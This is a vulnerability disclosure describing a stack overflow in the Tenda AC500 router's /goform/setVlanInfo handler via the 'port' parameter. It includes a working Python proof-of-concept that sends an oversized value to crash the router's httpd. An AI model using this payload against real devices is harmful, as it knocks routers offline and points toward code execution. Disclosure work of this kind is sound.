

# Affected Version
Tenda AC500 V2.0.1.9(1307)
# Vulnerability Description
Tenda AC500 V2.0.1.9(1307) was discovered to contain a stack overflow via parameter port at url /goform/setVlanInfo.

# Firmware download address
https://www.tenda.com.cn/download/detail-2470.html

# Vulnerability Details
In function fromSetVlanInfo line 31, src is a a user-controlled parameter(‘port’) and is read in without length check.Then in line 37, the content of src is copied into local variable dest, which leads to a stack overflow vulnerbility.

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

# Recurring vulnerabilities and POC
By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of bin/httpd process.
<pre>
import requests

def calculate_length(data):
    count = 0
    for x, y in data.items():
        count += len(x) + len(y) + 2
    return count - 1

data = {'action':'add',
    'port': 'a' * 0x1000}

headers = {
    'Host': '192.168.88.138',
    'Content-Length': f'{calculate_length(data)}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'password=1234',
    'User-Agent':
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
    'Accept':
    'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Upgrade-Insecure-Requests': '1',
    'Connection': 'close'
}

url = 'http://192.168.88.138/goform/setVlanInfo'

res = requests.post(url=url, headers=headers, data=data, verify=False)

print(res)
</pre>

# Timeline
# Acknowledgment
Credit to @peris-navince from Beijing University of Posts and Telecommunications.